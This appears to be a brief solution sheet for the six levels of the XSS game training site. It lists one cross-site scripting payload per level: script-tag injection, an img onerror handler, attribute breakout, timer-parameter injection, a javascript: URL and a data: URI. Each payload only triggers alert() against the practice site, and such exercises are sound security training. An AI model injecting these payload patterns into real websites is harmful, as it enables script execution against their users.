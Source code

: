 # Game

- 1 level

`https://xss-game.appspot.com/level1/frame?query=<script>alert()</script>`

- 2 level
`<img onerror="alert('Vzlom')" />`

- 3 level
`https://xss-game.appspot.com/level3/frame#'onerror="alert()"`

- 4 level

`https://xss-game.appspot.com/level4/frame?timer=3', alert(), '`

- 5 level

`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()`

- 6 level

`https://xss-game.appspot.com/level6/frame#data:text/javascript,alert()`